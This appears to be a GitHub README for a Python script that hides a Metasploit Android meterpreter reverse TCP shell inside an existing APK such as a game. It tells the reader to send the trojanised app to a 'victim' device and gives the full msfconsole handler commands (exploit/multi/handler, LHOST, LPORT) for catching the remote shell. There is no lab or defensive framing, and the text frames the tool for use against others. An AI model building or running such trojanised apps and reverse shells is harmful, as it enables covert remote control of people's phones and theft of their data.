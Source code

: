 ## Android apk and payload combiner
# A small python script that uses msfvenom to hide a tcp reverse shell to an android device inside an APK file

Hide an msfconsole reverse tcp shell payload in an existing apk application, made by bkstephen    ver July 2020
        
    
# Requirements:
  1. msfvenom: for generating the payload
  2. msfconsole (Metasploit): for starting the meterpreter session
  3. An apk file to place the payload in, e.g. an android game (search for Flappy Bird android apk)
  4. Make sure you have zipalign installed (apt install zipalign)
  
  
**Step 1: Run the script (preferably as root): sudo python3 android_payload_generator.py**

**Step 2: Once the payload is generated, send it to the victim android device to run it.**

**Step 3: Make sure you have initialized an msfconsole session using the following commands:**

	                  msfconsole
                      use exploit/multi/handler
	                  set payload android/meterpreter/reverse_tcp
	                  set LHOST {same ip as the one used for the script}
	                  set LPORT {same port as the one used for the script}
	                  exploit
